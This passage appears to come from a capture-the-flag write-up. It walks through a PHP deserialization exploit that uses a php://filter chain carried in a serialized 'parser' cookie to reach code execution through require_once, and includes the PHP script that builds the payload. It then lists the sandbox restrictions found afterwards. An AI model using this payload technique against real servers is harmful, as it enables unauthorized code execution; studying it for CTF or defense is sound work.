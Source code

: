 1. Create a `Parser` object with:

   * `debug = true`
   * `version = "v1.0"`
   * `betterprint = true`
   * `text = [our filter chain payload]`
2. Serialize and base64-encode the object, set it as our `parser` cookie.
3. Reload the page — the server unserializes, calls `evaluate()`, and runs `require_once($this->text)`, which executes our injected code.

```php
class Parser {
    public $text;
    public $debug;
    public $version;
    public $betterprint;

    function __construct($text, $version, $debug = false, $betterprint = false) {
        $this->text = $text;
        $this->debug = $debug;
        $this->version = $version;
        $this->betterprint = $betterprint;
    }
}

$text = "php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|...[TRUNCATED]...|convert.base64-decode/resource=php://temp";
$version = "v1.0";
$debug = true;
$betterprint = true;

$exploit = new Parser($text, $version, $debug, $betterprint);

$payload_raw = serialize($exploit);
$payload_b64 = base64_encode($payload_raw);
$payload_urlencoded = urlencode($payload_b64);

echo "{$payload_urlencoded}\n";
```

We set this as the `parser` cookie, reload, and we have code execution.

---

## Sandbox: Restrictions and Limitations

Once we get code execution, we quickly realize the environment is extremely restricted:

* [`open_basedir`](https://www.bencteux.fr/posts/open_basedir) limits file access to `/var/www/html`
* A huge list of PHP functions are disabled: `exec`, `shell_exec`, `system`, `proc_open`, `popen`, `scandir`, `opendir`, `file_put_contents`, even `print_r`, and many more.
* We can only read/write files in the webroot, but we cannot list filenames or run standard shell commands.
